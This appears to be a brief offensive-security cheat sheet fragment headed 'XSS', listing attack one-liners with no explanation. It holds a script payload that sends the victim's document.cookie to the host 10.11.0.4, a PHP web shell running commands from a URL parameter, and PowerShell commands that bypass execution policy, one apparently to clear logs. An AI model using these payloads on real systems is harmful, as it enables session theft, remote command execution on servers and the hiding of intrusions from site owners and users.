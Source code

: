 #### XSS

`<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>`

`powershell -ExecutionPolicy Bypass -File clear_logs.ps1`

`powershell -ExecutionPolicy Bypass -File admin_login.ps1`

`<?php echo shell_exec($_GET['cmd']); ?>`

